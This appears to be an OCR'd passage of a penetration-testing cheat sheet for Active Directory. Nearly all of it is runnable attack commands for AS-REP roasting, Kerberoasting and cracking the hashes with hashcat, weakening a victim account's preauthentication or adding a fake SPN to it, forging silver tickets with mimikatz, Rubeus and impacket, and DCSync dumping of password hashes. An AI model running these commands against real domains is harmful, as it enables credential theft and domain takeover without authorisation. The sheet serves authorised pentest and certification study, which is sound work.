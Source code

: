 ```shell
impacket-GetNPUsers "<domain>/" -usersfile <userlist.txt> -request -format hashcat -outputfile ASREProastables.txt -dc-ip $DC01_IP

# We can use [_Rubeus_](https://github.com/GhostPack/Rubeus), which is a toolset for raw Kerberos interactions and abuses.
.\Rubeus.exe asreproast /nowrap
# In case we have the GenericAll perms on another user, instead of changing passwrod we can disable preauth to capture its hash
bloodyAD --host DC_host --dc-ip <ip> -d <DOMAIN> -u attacker -p PASS add uac victimuser -f DONT_REQ_PREAUTH # use "remove uac" to remove
# powerview
Set-DomainObject -Identity victimuser -XOR @{userAccountControl=0x04000000 # again xor to remove
#netexec
nxc ldap 192.168.0.104 -u harry -p pass --asreproast output.txt # or use userlist.txt and empty pass
```
#### Kerberoasting
```shell
impacket-GetUserSPNs hacklab.local/john:Password123 -dc-ip $DC01_IP -request -outputfile kerberoastable.hashes
hashcat -m 13100 kerberoastable.hashes /usr/share/wordlists/rockyou.txt
# Rubeus
.\Rubeus.exe kerberoast /outfile:hashes.kerberoast
# In case generic all on user we can also make it kerberoastable
Set-DomainObject -Identity svc-alice -Add @{servicePrincipalName="HTTP/fake-service.domain.local"} # -Delete to delete

nxc ldap 192.168.0.104 -u harry -p pass --kerberoasting output.txt
```
#### Silver Ticket 
For example, we got the access the mssql service but our original mssql_svc account don't have permission to execute commands then we can forge a high privileged ticket named silver ticket
```shell
# we can also dump TGS from mimikatz
kerberos::list /export  # to dump tgs to crack svc account pass hash
mimikatz "kerberos::hash /password:PASSWORD1!" exit # convert pass to ntlm hash

# no need to have high privileges
kerberos::golden /sid:<domain-sid> /domain:corp.com /ptt /target:web04.corp.com /service:http /rc4:<service_ntlm_hash> /user:jeffadmin
misc::cmd
klist  # to see the tickets in the memory
# Rubeus for forged TGS creation
rubeus.exe hash /password:<pass>
Rubeus.exe silver /service:<completeSPN> /rc4:<nthash> sid:<domainsid> /user:<user> /domain: /ptt

iwr -UseDefaultCredentials http://web04 # to use kerberos forged TGS

# in Kali
impacket-ticketer -nthash <SVC_NTLM> -domain-sid <SID> -domain corp.com -spn <spn> -dc-ip ip Administrator # target user to get privs of
curl --negotiate -u : http://web04.corp.com  # --negotiate automatically shift to kerb auth

```
#### DC Sync Attack
```shell
# dmping hash of the specific user directly from DC, no need to be available in the memory
lsadump::dcsync /user:corp\dave  # should have one of the directory replication perms or in one of the Admin groups
# DC sync using secretsdump
impacket-secretsdump -just-dc-user dave <highpriv-domuser>:<pass>@192.168.50.70 # it uses [_DRSUAPI_](https://wiki.samba.org/index.php/DRSUAPI) implementing the directory replicaiton service remote protocol 
```